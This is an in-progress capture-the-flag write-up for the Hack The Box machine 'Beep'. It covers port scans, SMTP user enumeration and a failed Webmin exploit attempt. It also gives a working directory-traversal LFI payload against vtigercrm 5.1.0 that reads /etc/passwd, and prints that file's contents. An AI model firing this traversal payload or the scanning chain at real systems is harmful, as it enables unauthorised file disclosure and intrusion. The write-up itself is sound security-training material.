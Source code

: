 # Beep
`still in progress`
## Recon

Tags for [this box](https://app.hackthebox.com/machines/5):  
> - LFI
> - Web 

Difficulty:
> Easy

### Scan findings
```nmap
PORT      STATE SERVICE    REASON         VERSION
22/tcp    open  ssh        syn-ack ttl 63 OpenSSH 4.3 (protocol 2.0)
25/tcp    open  smtp       syn-ack ttl 63 Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp    open  http       syn-ack ttl 63 Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
110/tcp   open  pop3       syn-ack ttl 63 Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
111/tcp   open  rpcbind    syn-ack ttl 63 2 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            875/udp   status
|_  100024  1            878/tcp   status
143/tcp   open  imap       syn-ack ttl 63 Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: NAMESPACE THREAD=ORDEREDSUBJECT LIST-SUBSCRIBED URLAUTHA0001 LISTEXT OK X-NETSCAPE IDLE RENAME CATENATE CONDSTORE MULTIAPPEND THREAD=REFERENCES ANNOTATEMORE Completed SORT=MODSEQ SORT IMAP4rev1 ATOMIC NO QUOTA BINARY LITERAL+ ACL CHILDREN ID IMAP4 STARTTLS MAILBOX-REFERRALS UNSELECT UIDPLUS RIGHTS=kxte
443/tcp   open  ssl/http   syn-ack ttl 63 Apache httpd 2.2.3 ((CentOS))
|_http-server-header: Apache/2.2.3 (CentOS)
| http-robots.txt: 1 disallowed entry
|_/
878/tcp   open  status     syn-ack ttl 63 1 (RPC #100024)
993/tcp   open  ssl/imap   syn-ack ttl 63 Cyrus imapd
995/tcp   open  pop3       syn-ack ttl 63 Cyrus pop3d
3306/tcp  open  mysql      syn-ack ttl 63 MySQL (unauthorized)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
4190/tcp  open  sieve      syn-ack ttl 63 Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp? syn-ack ttl 63
4559/tcp  open  hylafax    syn-ack ttl 63 HylaFAX 4.3.10
5038/tcp  open  asterisk   syn-ack ttl 63 Asterisk Call Manager 1.1
10000/tcp open  http       syn-ack ttl 63 MiniServ 1.570 (Webmin httpd)
|_http-trane-info: Problem with XML parsing of /evox/about
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Aggressive OS guesses: Linux 2.6.9 - 2.6.24 (95%),
```

Some users found on port 25
```
[25][smtp-enum] host: 10.10.10.7   login: info  
[25][smtp-enum] host: 10.10.10.7   login: adm  
[25][smtp-enum] host: 10.10.10.7   login: root  
[25][smtp-enum] host: 10.10.10.7   login: mysql  
[25][smtp-enum] host: 10.10.10.7   login: ftp
```

https webserver has a few webpages
```
200        1l        6w      894c https://10.10.10.7/favicon.ico  
200        2l        4w       28c https://10.10.10.7/robots.txt  
200       35l      111w     1785c https://10.10.10.7/  
200       35l      111w     1785c https://10.10.10.7/config.php  
200       35l      111w     1785c https://10.10.10.7/index.php  
200       35l      111w     1785c https://10.10.10.7/register.php
```

## Enumeration

The site on 443 is an Elastics CRM login page.  
![[Pasted image 20220113213548.png]]

## Exploitation

It might be this, considering the LFI tag.  
![[Pasted image 20220113212032.png]]

That exploit doesn't work, however it does help to enumerate vtigercrm. I checked, and sure enough it's on this box. The login page even discloses the version `5.1.0`

![[Pasted image 20220113213050.png]]

This new exploit [EDB-18770](https://www.exploit-db.com/exploits/18770), suggests the following url: `https://localhost/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00`

Sure enough, I can read files now.

![[Pasted image 20220113213426.png]]

After some testing, it looks like we only need to go up 4 directories in the directory traversal: `/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../etc/passwd%00`

Contents of `/etc/passwd`
```bash
root:x:0:0:root:/root:/bin/bash
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
fanis:x:501:501::/home/fanis:/bin/bash
```

I was able to get the user flag using LFI

![[Pasted image 20220113215313.png]]

## more Enumeration

There is also a webserver on port 10000.  
![[Pasted image 20220114211041.png]]

An nmap script picked up `CVE-2006-3392`  
![[Pasted image 20220114213707.png]]  
This CVE is linked to [EDB-1997](http://www.exploit-db.com/exploits/1997/).  

Reviewing the exploit shows usage on line 50. No changes are necessary; all variables are provided at runtime instead of hardcoded in varaibles.  
![[Pasted image 20220114214954.png]]

This exploit is throwing errors:  
![[Pasted image 20220114215506.png]]

I found [this answer on StackOverflow](https://stackoverflow.com/a/6382581).  
![[Pasted image 20220114215646.png]]  
Installing the proper version for my php package.  

To identify php version:
```bash
php --version
```
Then install proper version:
```bash
sudo apt install php7.4-curl
```

![[Pasted image 20220114215957.png]]

It appears this exploit is not working even with php-curl installed.

There are a bunch of SSL errors in the NMAP output. It seems Autorecon was scanning using HTTP instead of HTTPS. Will re-run some scans with https.

These commands should be re-run using HTTPS instead of HTTP.
```
curl -sSik https://10.10.10.7:10000/ &&
curl -sSikf https://10.10.10.7:10000/.well-known/security.txt &&
curl -sSikf https://10.10.10.7:10000/robots.txt &&

nmap -vv --reason -Pn -T4 -sV -p 10000 --script="banner,(https* or ssl*) and not (brute or broadcast or dos or external or https-slowloris* or fuzzer)" -oN "/home/nate/hackthebox/beep/scans/tcp10000/tcp_10000_https_nmap.txt" -oX "/home/nate/hackthebox/beep/scans/tcp10000/xml/tcp_10000_https_nmap.xml" 10.10.10.7 &&

whatweb --color=never --no-errors -a 3 -v https://10.10.10.7:10000 2>&1
```

```bash
feroxbuster -u https://10.10.10.7:10000/ -t 10 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x "php,bin,txt" -v -k -n -o /home/nate/hackthebox/beep/scans/tcp80/tcp_80_http_feroxbuster_https.txt
```



## Gotta get a shell.

I have the user flag, but I still don't have code execution. I need to examine the options and decide which route(s) to take.

### Brainstorming: LFI to RCE
- Poison logs
- Maybe RFI?
- 

